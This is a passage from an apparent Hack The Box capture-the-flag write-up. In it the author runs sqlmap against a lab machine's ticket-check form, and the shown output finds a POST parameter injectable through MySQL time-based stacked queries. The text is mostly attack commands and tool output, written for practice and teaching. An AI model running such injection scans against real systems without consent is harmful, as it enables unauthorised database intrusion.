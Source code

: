 ![](../content/images/2023/02/img-06.png)

Registration gave me a _ticket_ to the next stream of the most anticipated matches. However, the interface led me to think of a possible **SQLi**\-type vulnerability. Let's check with **sqlmap**.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://soc-player.soccer.htb/check" --data "id=86969" --method POST --risk 3 --level 5 --batch --dbs
            ___
           __H__                                                                                                                                                                                             
     ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [']     | .'| . |                                                                                                                                                                                
    |___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 05:42:18 /2023-01-28/
    
    [05:42:18] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('connect.sid=s%3Ach9DcEO...T7JTx4yBkE'). Do you want to use those [Y/n] Y
    [05:42:19] [INFO] testing if the target URL content is stable
    [05:42:19] [INFO] target URL content is stable
    [05:42:19] [INFO] testing if POST parameter 'id' is dynamic
    [05:42:19] [WARNING] POST parameter 'id' does not appear to be dynamic
    [05:42:19] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
    [05:42:19] [INFO] testing for SQL injection on POST parameter 'id'
    [05:42:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [...]
    [05:50:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
    [05:50:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
    [05:50:44] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
    [05:50:50] [INFO] POST parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    [05:50:50] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [05:50:50] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [05:50:58] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
    [05:51:02] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
    [...]
    [05:56:55] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
    [05:57:04] [WARNING] parameter 'Host' does not seem to be injectable